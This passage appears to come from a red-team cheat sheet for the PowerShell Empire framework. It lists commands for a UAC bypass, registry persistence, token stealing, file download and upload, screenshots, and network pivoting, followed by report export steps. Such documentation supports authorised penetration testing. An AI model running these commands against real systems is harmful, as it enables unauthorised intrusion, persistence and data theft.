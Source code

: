 ### Privilege Escalation
```powershell
usemodule privesc/bypassuac
set Listener MyListener
execute
```

### Persistence
```powershell
usemodule persistence/elevated/registry
set Listener MyListener
execute
```

---

## Post-Exploitation

### Common Agent Commands
```powershell
(Empire: AGENT_NAME) > shell whoami     # Execute shell command
(Empire: AGENT_NAME) > ps               # List processes
(Empire: AGENT_NAME) > steal_token      # Steal process token
(Empire: AGENT_NAME) > download file.txt # Download file
(Empire: AGENT_NAME) > upload file.txt   # Upload file
(Empire: AGENT_NAME) > sc               # Screenshot
```

### Pivoting
```powershell
(Empire: AGENT_NAME) > autoroute -s 10.10.10.0/24
(Empire: AGENT_NAME) > socks 1080
```

---

## Reporting

### Generate Reports
```powershell
report
```

### Export Results
```powershell
export <report_type> <filename>
```

### Starkiller Reporting
1. Navigate to "Reporting" tab
2. Generate HTML/JSON reports
3. Export agent timelines

---